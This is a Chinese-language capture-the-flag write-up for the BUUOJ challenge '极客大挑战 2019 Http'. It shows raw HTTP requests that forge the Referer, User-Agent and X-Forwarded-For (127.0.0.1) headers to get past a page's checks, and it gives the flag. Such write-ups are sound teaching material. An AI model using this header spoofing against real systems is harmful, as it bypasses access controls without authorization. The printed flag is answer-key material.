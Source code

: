 ```yaml
---
title: 极客大挑战 2019 Http
date: 2023-10-24
categories:
  - CTF
  - Web
---
```


## 寻找目标

一上来发现什么有效的信息都没有，打开 F12，发现有个 `Secret.php`

![](https://p.sda1.dev/13/09ef9a4b8fac065220e72f29d7f74d55/image.png)

## Referer

点进去，发现他希望我们的请求来自 `https://Sycsecret.buuoj.cn`

![](https://p.sda1.dev/13/ccd8b04f09295b0ec82d19787a701d90/image.png)

遇到这种情况，我们首先想到的是我们 Http 请求中的 Header 应当有 **`Referer`** 值，且 `Referer` = `https://Sycsecret.buuoj.cn`，这个网址不一定是真的，但网站只会识别请求中的 Referer，他并不知道你到底从哪里来，你只需要按部就班就是了，于是我们使用一个 API 测试工具（我用的 Apifox）往请求中添加 Referer，可参考下面的 Http 请求代码

```http
GET /Secret.php HTTP/1.1
Host: node4.buuoj.cn:25522
Referer: https://Sycsecret.buuoj.cn
User-Agent: Apifox/1.0.0 (https://apifox.com)
Accept: */*
Host: node4.buuoj.cn:25522
Connection: keep-alive
```

## User-Agent

发送请求后，可以看到如下界面，他希望我们使用 `Syclover` 浏览器访问这个网站，但是很明显，这个浏览器压根不存在，那么我们可以更改 Header 中的 **`User-Agent`**（简称 UA） 值来模拟一个 `Syclover` 浏览器，即 `User-Agent` = `Syclover`

![](https://p.sda1.dev/13/d1eaf8df2f944fb1ace78a8da45bd61a/image.png)

可参考下面的 Http 请求代码

```http
GET /Secret.php HTTP/1.1
Host: node4.buuoj.cn:25522
Referer: https://Sycsecret.buuoj.cn
User-Agent: Syclover
Accept: */*
Host: node4.buuoj.cn:25522
Connection: keep-alive
```

## X-Forwarded-For

发送请求后，可见如下界面，翻译一下，他希望我们是本地用户，我都从外网访问了，我怎么才能让他觉得我是本地用户呢？这就需要伪造 Header 中的 **`X-Forwarded-For`**（简称 XFF）值，XFF 通常存储的是原始客户端的 IP 地址，那就是说，如果我的 `X-Forwarded-For` = `127.0.0.1`，那我就相当于伪造成了本地用户

![](https://p.sda1.dev/13/0f7bc66ebca507ef1f230b7f4a046130/image.png)

可参考以下 Http 请求代码

```http
GET /Secret.php HTTP/1.1
Host: node4.buuoj.cn:25522
Referer: https://Sycsecret.buuoj.cn
User-Agent: Syclover
X-Forwarded-For: 127.0.0.1
Accept: */*
Host: node4.buuoj.cn:25522
Connection: keep-alive
```

发送请求后，即可得出 Flag 为 `flag{dd80eb69-8471-45f2-b0e7-5865d5d11382}`